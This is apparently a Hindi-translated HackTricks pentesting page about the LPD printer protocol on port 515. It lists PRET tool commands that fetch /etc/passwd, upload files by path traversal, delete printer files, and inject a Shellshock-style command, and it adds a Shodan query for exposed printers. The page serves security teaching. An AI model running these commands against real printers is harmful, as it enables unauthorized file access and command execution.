 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### **LPD प्रोटोकॉल का परिचय**

1980 के दशक में, **लाइन प्रिंटर डेमन (LPD) प्रोटोकॉल** बर्कले यूनिक्स में विकसित किया गया, जिसे बाद में RFC1179 के माध्यम से औपचारिक रूप दिया गया। यह प्रोटोकॉल पोर्ट 515/tcp पर कार्य करता है, जो `lpr` कमांड के माध्यम से इंटरैक्शन की अनुमति देता है। LPD के माध्यम से प्रिंटिंग का सार एक **नियंत्रण फ़ाइल** (कार्य विवरण और उपयोगकर्ता निर्दिष्ट करने के लिए) के साथ एक **डेटा फ़ाइल** (जो प्रिंट जानकारी रखती है) भेजने में निहित है। जबकि नियंत्रण फ़ाइल डेटा फ़ाइल के लिए **विभिन्न फ़ाइल प्रारूपों** का चयन करने की अनुमति देती है, इन फ़ाइलों का प्रबंधन विशिष्ट LPD कार्यान्वयन द्वारा निर्धारित किया जाता है। यूनिक्स-जैसे सिस्टम के लिए एक व्यापक रूप से मान्यता प्राप्त कार्यान्वयन **LPRng** है। विशेष रूप से, LPD प्रोटोकॉल का उपयोग **दुष्ट पोस्टस्क्रिप्ट** या **PJL प्रिंट नौकरियों** को निष्पादित करने के लिए किया जा सकता है।

### **LPD प्रिंटर के साथ इंटरैक्ट करने के लिए उपकरण**

[**PRET**](https://github.com/RUB-NDS/PRET) दो आवश्यक उपकरण, `lpdprint` और `lpdtest`, पेश करता है, जो LPD-संगत प्रिंटर के साथ इंटरैक्ट करने का एक सीधा तरीका प्रदान करते हैं। ये उपकरण डेटा प्रिंट करने से लेकर प्रिंटर पर फ़ाइलों को डाउनलोड, अपलोड या हटाने जैसे विभिन्न कार्यों को सक्षम करते हैं:
```python
# To print a file to an LPD printer
lpdprint.py hostname filename
# To get a file from the printer
lpdtest.py hostname get /etc/passwd
# To upload a file to the printer
lpdtest.py hostname put ../../etc/passwd
# To remove a file from the printer
lpdtest.py hostname rm /some/file/on/printer
# To execute a command injection on the printer
lpdtest.py hostname in '() {:;}; ping -c1 1.2.3.4'
# To send a mail through the printer
lpdtest.py hostname mail lpdtest@mailhost.local
```
व्यक्तियों के लिए जो **प्रिंटर हैकिंग** के क्षेत्र का और अन्वेषण करना चाहते हैं, यहाँ एक व्यापक संसाधन उपलब्ध है: [**Hacking Printers**](http://hacking-printers.net/wiki/index.php/Main_Page).

# Shodan

* `port 515`


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** पर हमें **फॉलो** करें 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
